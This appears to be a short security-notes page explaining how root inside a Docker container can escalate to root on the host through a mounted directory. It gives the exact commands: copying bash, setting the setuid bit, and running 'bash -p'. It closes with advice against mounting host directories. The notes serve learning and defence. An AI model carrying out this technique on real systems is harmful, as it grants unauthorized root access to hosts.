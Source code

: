 

---

## Mounting Host Directory in a Docker Container (PrivEsc)
Root in a container is not real root.
It's fake root.

But if a directory is mounted in a container, and you have root in that
container, then you can create files in that directory that will then
be owned by root.


```bash
# On the host:
cp /bin/bash ./rootbash

# In the container as root:
chown root ./rootbash
chmod +s ./rootbash
```
Setting the `s` bit on a file makes it `setuid` and `setgid`.
* `SUID` - Executed using the owner's perms
* `SGID` - Executed using the group's perms

Running bash with `-p` will let you run bash with the GUID/SUID
bash -p 
<- 

tl;dr: 
Mounting a directory from the host into a container is a security risk.  
Don't have any Docker containers mount direcories that are on the host.  

---
